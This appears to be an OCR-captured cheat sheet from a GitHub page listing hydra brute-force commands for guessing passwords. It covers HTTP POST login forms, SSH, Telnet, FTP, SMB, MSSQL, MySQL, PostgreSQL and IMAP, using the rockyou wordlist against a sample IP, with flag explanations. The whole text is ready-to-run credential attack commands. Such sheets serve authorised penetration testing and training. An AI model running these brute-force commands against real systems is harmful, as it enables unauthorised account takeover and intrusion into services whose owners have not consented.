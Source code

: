 # View target webpage form data
curl -sL http://10.0.0.1

# Use above info to brute force the HTTP POST Form
hydra 10.0.0.1 http-form-post "/form/frontpage.php:user=admin&amp;pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
    # -l is the user
    # -P is the wordlist
    # -f stop attack on first successful result
    # -vV really verbose

# SSH BRUTE
hydra -s &lt;port&gt; -l &lt;username&gt; -P /usr/share/wordlists/rockyou.txt &lt;ip&gt; -t &lt;number of threads up to 16&gt; -V ssh

# TELNET BRUTE
hydra -L usernames.txt -P passwords.txt 10.0.0.1 telnet -V

# FTP BRUTE
hydra -L user.txt -P pass.txt 10.0.0.1 ftp -V -e nsr

# SMB BRUTE
hydra -L usernames.txt -P passwords.txt 10.0.0.1 smb -V -f

# MSSQL BRUTE
hydra -L user.txt –P pass.txt 10.0.0.1 mssql

# MySQL BRUTE
hydra -L usernames.txt -P passwords.txt 10.0.0.1 mysql -V -f

# PostGreSQL
hydra -L usernames.txt -P passwords.txt 10.0.0.1 postgres -V

# IMAP BRUTE
hydra -l USERNAME -P /path/to/passwords.txt -f 10.0.0.1 imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 10.0.0.1 imap -V
